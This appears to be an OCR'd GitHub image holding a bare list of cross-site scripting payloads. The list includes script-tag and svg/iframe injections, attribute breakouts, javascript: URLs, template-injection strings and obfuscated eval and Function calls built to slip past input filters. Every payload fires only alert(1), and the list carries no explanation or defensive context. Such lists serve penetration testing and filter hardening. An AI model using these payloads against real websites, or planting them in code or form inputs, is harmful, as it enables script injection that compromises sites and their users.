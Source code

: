 &lt;script&gt;alert(1)&lt;/script&gt;
<scr<script>ipt>alert(1)</scr<script>ipt>
<script\x3Ealert(1)</script>
javascript:alert(1)
<svg onload=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>
<svg onload=alert(1)>
" onmouseover="alert(1)
' onfocus=alert(1) autofocus='
<iframe src="javascript:alert(1)">
<svg><script>alert`1`</script>
<svg><script>alert`1`</script>
<iframe srcdoc="<script>alert(1)</script>"></iframe>
{{constructor.constructor('alert(1)')()}}
{{a='alert(1)', (a)()}}
<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<scr<script>ipt>alert(1)</scr</script>ipt>
  --> Json
"};alert(1);var foo={
";alert(1);// 
---
<ScRiPt>alert(1)</ScRiPt>
<script>eval("al"+"ert(1)")</script>
<script>Function("ale"+"rt(1)")()</script>
javascript:var{a:onerror}={a:%2561lert};throw%20origin
top[8680439..toString(30)](1337)
top.alert.call(null,1)
eval(\u0061lert(1))
onerror=\u0061lert(1)
